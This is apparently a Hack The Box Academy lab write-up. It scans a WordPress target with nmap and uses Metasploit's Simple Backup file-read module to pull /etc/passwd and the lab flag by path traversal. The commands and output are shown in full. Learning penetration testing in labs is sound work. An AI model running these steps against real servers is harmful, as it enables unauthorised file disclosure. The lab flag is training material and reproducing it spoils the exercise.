

## Public exploits

**IP & Port:** 94.237.63.49:55501

1. Running nmap to enumerate ip and port
    ```bash
    [★]$ nmap -sC -sV 94.237.63.49 -p 55501
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-03 14:03 CDT
    Nmap scan report for 94-237-63-49.uk-lon1.upcloud.host (94.237.63.49)
    Host is up (0.00084s latency).

    PORT      STATE SERVICE VERSION
    55501/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Getting Started &#8211; Just another WordPress site
    |_http-generator: WordPress 5.6.1

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 17.06 seconds
    ```
    - service running: http
    - version: Apache httpd 2.4.41
2. Since its http service, open it in webrowser.<br>
    
    - A different version of Apache is mentioned here
    - ***Simple Backup Plugin 2.7.10 for WordPress***
3. Use metasploit to search for public exploits
    - Run msfconsole using ***msfconsole***
    ```bash
    [msf](Jobs:0 Agents:0) >> search exploit wordpress 2.7.10

    Matching Modules
    ================

    #  Name                                               Disclosure Date  Rank    Check  Description
    -  ----                                               ---------------  ----    -----  -----------
    0  auxiliary/scanner/http/wp_simple_backup_file_read                   normal  No     WordPress Simple Backup File Read Vulnerability


    Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/http/wp_simple_backup_file_read
    ```
    - Use exploit
    ```bash
    [msf](Jobs:0 Agents:0) >> use 0
    [msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> show options

    Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    DEPTH      6                yes       Traversal Depth (to reach the root fo
                                            lder)
    FILEPATH   /etc/passwd      yes       The path to the file to read
    Proxies                     no        A proxy chain of format type:host:por
                                            t[,type:host:port][...]
    RHOSTS                      yes       The target host(s), see https://docs.
                                            metasploit.com/docs/using-metasploit/
                                            basics/using-metasploit.html
    RPORT      80               yes       The target port (TCP)
    SSL        false            no        Negotiate SSL/TLS for outgoing connec
                                            tions
    TARGETURI  /                yes       The base path to the wordpress applic
                                            ation
    THREADS    1                yes       The number of concurrent threads (max
                                            one per host)
    VHOST                       no        HTTP server virtual host


    View the full module info with the info, or info -d command.
    ```
    - RHOST and RPORT are required. Since RPORT is defaulted to 80 but our port is 55501, this needs to be changed.
    ```bash
    [msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> set RHOST 94.237.63.49
    RHOST => 94.237.63.49
    [msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> set RPORT 55501
    RPORT => 55501
    ```
4. Run the exploit using **exploit**
    - It seems to have saved a file in "File saved in: /home/htb-ac-1397757/.msf4/loot/20241003142738_default_94.237.63.49_simplebackup.tra_620619.txt"
    ```bash
    [msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> exploit

    [+] File saved in: /home/htb-ac-1397757/.msf4/loot/20241003142738_default_94.237.63.49_simplebackup.tra_620619.txt
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
    - View the file
    ```bash
    ┌─[us-academy-4]─[10.10.15.49]─[htb-ac-1397757@htb-honshykm1p]─[~]
    └──╼ [★]$ cat /home/htb-ac-1397757/.msf4/loot/20241003142738_default_94.237.63.49_simplebackup.tra_620619.txt 
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    ```
    - From use exploit image above, it looks like its fetching information from ***FILEPATH   /etc/passwd*** that's why the output above is /etc/passwd info of the webserver.
5. in HTB-academy question, they asked ***for the content of the '/flag.txt' file***
    - change the settings in metasploit for FILEPATH from /etc/passwd to /flag.txt
    ```bash
    [msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> set FILEPATH /flag.txt
    FILEPATH => /flag.txt
    [msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> show options

    Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    DEPTH      6                yes       Traversal Depth (to reach the root fo
                                            lder)
    FILEPATH   /flag.txt        yes       The path to the file to read
    Proxies                     no        A proxy chain of format type:host:por
                                            t[,type:host:port][...]
    RHOSTS     94.237.63.49     yes       The target host(s), see https://docs.
                                            metasploit.com/docs/using-metasploit/
                                            basics/using-metasploit.html
    RPORT      55501            yes       The target port (TCP)
    ```
    - Run exploit
    ```bash
    [msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> exploit

    [+] File saved in: /home/htb-ac-1397757/.msf4/loot/20241003143642_default_94.237.63.49_simplebackup.tra_135170.txt
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
    - check the saved file
    ```bash
    [★]$ cat /home/htb-ac-1397757/.msf4/loot/20241003143642_default_94.237.63.49_simplebackup.tra_135170.txt 
    
    HTB{my_f1r57_h4ck}
    ```